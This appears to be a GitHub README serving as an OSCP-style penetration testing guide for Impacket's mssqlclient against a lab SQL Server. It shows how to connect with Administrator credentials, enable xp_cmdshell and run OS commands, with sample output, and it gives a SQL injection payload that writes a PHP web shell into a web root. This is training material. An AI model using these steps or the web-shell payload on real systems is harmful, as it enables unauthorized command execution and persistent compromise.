 
#  Penetration Testing with Impacket MSSQLClient "OSCP guide"

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [MySQL Database Penetration](#mysql-database-penetration)
8. [Security Considerations](#security-considerations)
9. [Resources](#resources)
10. [Contributing](#contributing)
11. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, ensure Python and pip are installed, then follow these steps:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance from your Kali VM:

```bash
impacket-mssqlclient Administrator:Lab123@192.168.212.18 -windows-auth
```

```plaintext
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```

## Enabling Advanced Options

To execute Windows shell commands via `xp_cmdshell`, follow these steps after connecting:

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, execute system commands directly from the SQL Server:

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

## Advanced Usage

With full system control, escalate SQL shell to a reverse shell for expanded capabilities.

### MySQL Database Penetration

While MySQL lacks a direct RCE function, leverage the `SELECT INTO OUTFILE` statement to write files on the web server.

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## Security Considerations

Exercise caution when using `mssqlclient` or similar tools:

- Obtain proper authorization for penetration testing.
- Understand potential impact on systems.
- Adhere to responsible disclosure practices for vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)


```

